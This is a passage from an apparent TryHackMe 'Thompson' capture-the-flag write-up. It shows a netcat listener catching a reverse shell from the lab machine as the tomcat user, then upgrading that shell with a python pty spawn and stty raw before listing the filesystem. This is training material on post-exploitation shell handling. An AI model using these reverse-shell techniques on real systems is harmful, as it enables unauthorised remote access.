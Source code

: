 ![](/images/TryHackMe/Thompson/below2.png)

---

Finally 
```sh
┌──(cracker㉿carcker)-[~/Desktop/THM/thompson]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.252] from (UNKNOWN) [10.10.224.113] 36786
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
python -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/$ export TERM=xterm-256color

export TERM=xterm-256color
tomcat@ubuntu:/$ 
tomcat@ubuntu:/$ ^Z
zsh: suspended  nc -lvnp 4444
```
```sh                                                                                                                                   
┌──(cracker㉿carcker)-[~/Desktop/THM/thompson]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

tomcat@ubuntu:/$ ls -la
total 92
drwxr-xr-x 22 root root  4096 Aug 14  2019 .
drwxr-xr-x 22 root root  4096 Aug 14  2019 ..
drwxr-xr-x  2 root root  4096 Aug 14  2019 bin
drwxr-xr-x  3 root root  4096 Aug 14  2019 boot
drwxr-xr-x 17 root root  3700 Aug 10 07:55 dev
drwxr-xr-x 92 root root  4096 Aug 23  2019 etc
drwxr-xr-x  3 root root  4096 Aug 14  2019 home
lrwxrwxrwx  1 root root    33 Aug 14  2019 initrd.img -> boot/initrd.img-4.4.0-159-generic
lrwxrwxrwx  1 root root    33 Aug 14  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x 19 root root  4096 Aug 14  2019 lib
drwxr-xr-x  2 root root  4096 Aug 14  2019 lib64
drwx------  2 root root 16384 Aug 14  2019 lost+found
drwxr-xr-x  4 root root  4096 Aug 14  2019 media
drwxr-xr-x  2 root root  4096 Feb 26  2019 mnt
drwxr-xr-x  3 root root  4096 Aug 14  2019 opt
dr-xr-xr-x 86 root root     0 Aug 10 07:55 proc
drwx------  3 root root  4096 Aug 14  2019 root
drwxr-xr-x 17 root root   520 Aug 10 07:55 run
drwxr-xr-x  2 root root 12288 Aug 14  2019 sbin
drwxr-xr-x  2 root root  4096 Feb 26  2019 srv
dr-xr-xr-x 13 root root     0 Aug 10 07:55 sys
drwxrwxrwt 10 root root  4096 Aug 10 10:44 tmp
```